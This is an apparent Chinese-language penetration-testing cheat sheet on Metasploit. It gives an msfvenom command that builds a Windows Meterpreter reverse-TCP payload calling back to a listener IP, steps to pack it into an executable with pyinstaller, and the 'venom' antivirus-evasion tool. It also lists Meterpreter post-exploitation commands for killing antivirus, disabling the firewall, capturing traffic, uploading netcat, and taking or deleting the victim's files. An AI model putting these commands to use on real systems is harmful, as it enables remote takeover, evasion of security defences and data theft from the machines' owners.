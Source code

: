 ~~~~markdown
生产py文件的payload
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.8.124 -i 11 -f py -o msf.py 
建立侦听
将生成的py文件修改处理
下载pyinstall：https://nchc.dl.sourceforge.net/project/pyinstaller/2.0/pyinstaller-2.0.zip
解压安装
安装pywin32
pip.exe install pywin32
python.exe pyinstaller-2.0\pyinstaller.py --console --onefile  pyinstaller-2.0\11.py
~~~~

## venom免杀paylaod

~~~markdown
下载地址：https://github.com/r00t-3xp10it/venom

sudo ./setup.sh
运行
sudo ./venom.sh

~~~

## Meterpreter后渗透模块

~~~text
 Meterpreter是Metasploit框架中的一个扩展模块，作为溢出成功以后的攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个Meterpreter shell的链接。Meterpreter shell作为渗透模块有很多有用的功能，比如添加一个用户、隐藏一些东西、打开shell、得到用户密码、上传下载远程主机的文件、运行cmd.exe、捕捉屏幕、得到远程控制权、捕获按键信息、清除应用程序、显示远程主机的系统信息、显示远程机器的网络接口和IP地址等信息。另外Meterpreter能够躲避入侵检测系统。在远程主机上隐藏自己,它不改变系统硬盘中的文件,因此HIDS[基于主机的入侵检测系统]很难对它做出响应。此外它在运行的时候系统时间是变化的,所以跟踪它或者终止它对于一个有经验的人也会变得非常困难。
~~~

权限，使用平台，环境

### 基础命令

~~~~~markdown
进程迁移
migrate
关闭杀软  ——失效—— run killav
	通过服务关闭
通过其 shell 来关闭防火墙
netsh adcfirewall set allprofiles state off
查看目标机所有流量
run packetrecorder -i 1
提取系统信息
run scraper
ps 查看进程
migrate 1774 切换进程
截屏  screenshot
获取系统运行的平台 sysinfo
cat c:\boot.ini#查看文件内容,文件必须存在
del c:\boot.ini #删除指定的文件
upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32\
download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/
edit c:\boot.ini  # 编辑文件
getwd#打印工作目录
cd#更改本地目录
ls#列出在当前目录中的文件列表
pwd#输出工作目录
cd c:\\ #进入目录文件下
rm file #删除文件
mkdir dier #在受害者系统上的创建目录
rmdir#受害者系统上删除目录
dir#列出目标主机的文件和文件夹信息
~~~~~